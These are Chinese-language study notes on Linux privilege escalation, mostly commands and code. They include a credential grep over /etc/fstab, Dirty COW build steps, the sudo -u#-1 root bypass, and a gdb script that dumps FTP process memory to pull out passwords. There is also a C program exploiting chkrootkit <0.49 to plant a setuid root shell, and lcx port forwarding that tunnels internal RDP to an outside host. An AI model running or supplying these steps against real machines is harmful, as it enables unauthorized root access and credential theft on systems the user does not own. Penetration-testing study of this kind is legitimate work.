 ## linux提权学习笔记

## 操作系统信息

~~~~
(cat /proc/version || uname -a ) 2>/dev/null
lsb_release -a 2>/dev/null # old, not by default on many systems
cat /etc/os-release 2>/dev/null # universal 
~~~~

PATH

如果您对变量**内的任何文件夹具有写入权限，**您可能能够劫持一些库或二进制文件：**`PATH`**

~~~
echo $PATH
~~~

环境信息

~~~~
(env || set) 2>/dev/null
~~~~

内核版本

~~~~
cat /proc/version
uname -a
searchsploit "Linux Kernel"
~~~~

**编译的漏洞**：

~~~~
github.com/lucyoa/kernel-exploits

github.com/bwbwbwbw/linux-exploit-binaries

github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack
~~~~

可以帮助搜索内核漏洞的工具

~~~
https://github.com/mzet-/linux-exploit-suggester
https://github.com/jondonas/linux-exploit-suggester-2
~~~

## CVE-2016-5195（脏牛）

Linux 权限提升 - Linux 内核 <= 3.19.0-73.8

~~~~
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
~~~~

## Sudo version

~~~~
searchsploit sudo

sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
~~~~

~~~~

sudo -V | grep 'Sudo version'    查看是否受影响的版本，低于1.8.29有漏洞
修改配置文件：vim/etc/sudoers 在root(ALL:ALL)ALL添加一行
test ALL=(ALL,!root)ALL
useradd test passwd test
su - test
sudo -u#-1 id -u 或
sudo -u#4294967295 id -u

sudo -u#-1 whoami
sudo -u#-1 sh

~~~~



检查**已安装和未安装的内容**、位置

~~~~
ls /dev 2>/dev/null | grep -i "sd"
cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null
#Check if credentials in fstab
grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null
~~~~

枚举有用的二进制文件

~~~~
which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/04/20220404190740.png)

检查是否**安装了任何编译器**

~~~~
(dpkg --list 2>/dev/null | grep "compiler" | grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null | grep gcc 2>/dev/null; which gcc g++ 2>/dev/null || locate -r "/gcc[0-9\.-]\+$" 2>/dev/null | grep -v "/doc/")
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/04/20220404190857.png)

检查**已安装包和服务的版本**

~~~
dpkg -l #Debian
rpm -qa #Centos
~~~

可以使用**openVAS**检查机器内安装的过时和易受攻击的软件

查看正在执行的**进程并检查是否有任何进程具有****比它应有的更多权限**

~~~~
ps aux
ps -ef
top -n 1
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/04/20220404191039.png)

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/04/20220404191104.png)

有权访问 FTP 服务的内存

~~~~
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings 信息过程映射
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #用户和密码
~~~~

gdb脚本

~~~
#!/bin/bash
#./dump-memory.sh <PID>
grep rw-p /proc/$1/maps \
    | sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
    | while read start stop; do \
    gdb --batch --pid $1 -ex \
    "dump memory $1-$start-$stop.dump 0x$start 0x$stop"; \
done
~~~

## 内核溢出提权

~~~~
查看内核
uname -r
反弹shell执行命令
上传exp
编译
执行
根据内核版本查找对应漏洞
收集exp
可以从www.exploit-db.com查找漏洞利用
~~~~

## linux-exploit-suggerster

~~~~
https://github.com/mungurk/linux-exploit-suggester.sh/blob/master/linux-exploit-suggester.sh
chmod 777 x.sh
./x.sh
~~~~

## mysql UDF 提权

~~~
上传库文件
执行库文件创建命令执行函数
~~~

## 利用SUID提权

~~~
寻找系统里可以用的SUID文件来提权
$ find / -perm -u=s -type f 2>/dev/null
~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/04/20220404203319.png)

## 利用环境变量劫持高权限程序提权

~~~
第一步：查找可操作文件
$ find / -perm -u=s -type f 2>/dev/null
第二步：利用file 命令查看文件是否可执行

~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/04/20220404203402.png)

•执行该文件

•在执行的时候可能会报错，根据报错来查看调用系统命令

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/04/20220404203508.png)

## 利用chkrootkit <0.49版本提权

~~~~
1.如果发现Linux服务器存在chkrootkit并且版本小于0.49
2.上传一个利用脚本到/tmp目录下并编译
#include <unistd.h>
void main(void)
{
system("chown root:root /tmp/update");
system("chmod 4755 /tmp/update");
setuid(0);
setgid(0);
execl("/bin/sh","sh",NULL);
}
保存为update.c
进入到/tmp目录下
gcc -o update  update.c
然后等着管理员运行chkrootkit命令检测系统后门
在发现/tmp/update 所有者会变成root
这时候你在进入/tmp运行update
./update

~~~~

## 内网端口转发

~~~~
内网主机输入命令
lcx.exe -slave 外网ip 外网端口  内网ip   内网端口
lcx.exe -slave 200.1.1.1  1111    192.168.1.2  3389

外网主机输入命令
lcx.exe  -listen 1111  1311

~~~~

